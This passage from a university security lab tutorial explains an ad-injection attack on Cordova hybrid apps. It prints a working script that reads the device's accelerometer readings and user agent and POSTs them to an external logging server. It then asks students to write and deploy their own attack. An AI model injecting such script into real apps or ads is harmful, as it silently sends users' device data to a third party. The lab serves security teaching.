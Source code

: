 What just happened is that the attack grabbed the current accelerometer data and sent it to a logging server (sitting on the same server as our ad server for convenience). This logging server could be anything - and could reside anywhere. Now the attacker has your data! In case you are wondering this is the attack code injected into the app.

```HTML
<script>
    var result={'x':'','y':'','z':'','timestamp':''};
    try {
        navigator.accelerometer.getCurrentAcceleration(function (acceleration) {//success callback
        //console.log('acceleration setvars called');
        result.x=acceleration.x;
        result.y=acceleration.y;
        result.z=acceleration.z;
        result.timestamp=acceleration.timestamp;
        var formData = 'attack=2'+'&result='+JSON.stringify(result)+'&deviceinfo='+navigator.userAgent;
        $.ajax({
            url: 'http://hybridapp.mlhale.com/api/logs/',
            type: "POST",
            data: formData,
            contentType:"application/x-www-form-urlencoded"
        }).then(function (data, status, request){
            console.log("Successful ajax call: " + request.responseText);
            alert('Attack Succeeded: '+request.responseText, 10000);
        }).fail(function(request, status, error){
            console.log("Ajax error: "+request.responseText);
            alert('Attack Failed: '+request.responseText, 10000);
        });
    }, function (error) {//error callback
        //do some error handling
    });}
    catch(err){
        alert('Attack Failed: '+'Cordova failed: probably not running on a mobile device.', 10000);
    }
</script>
```

Here is a screenshot of the logs generate on my logging server

![advert2](hybrid-app-tutorial-part3/accelerometer-attack2.png)

[Top](#table-of-contents)

### Write your own attack
Write an attack to go along with the feature you worked on independently in lab 2. Ask me for access and I will provide you with credentials to access and deploy your attack on the ad server.

#### License
<a rel="license" href="http://creativecommons.org/licenses/by-nc-sa/4.0/"><img alt="Creative Commons License" style="border-width:0" src="https://i.creativecommons.org/l/by-nc-sa/4.0/88x31.png" /></a><br /><span xmlns:dct="http://purl.org/dc/terms/" property="dct:title">CYBER8480 and related works</span> by <a xmlns:cc="http://creativecommons.org/ns#" href="http://faculty.ist.unomaha.edu/mlhale" property="cc:attributionName" rel="cc:attributionURL">Matt Hale</a> are licensed under a <a rel="license" href="http://creativecommons.org/licenses/by-nc-sa/4.0/">Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License</a>.

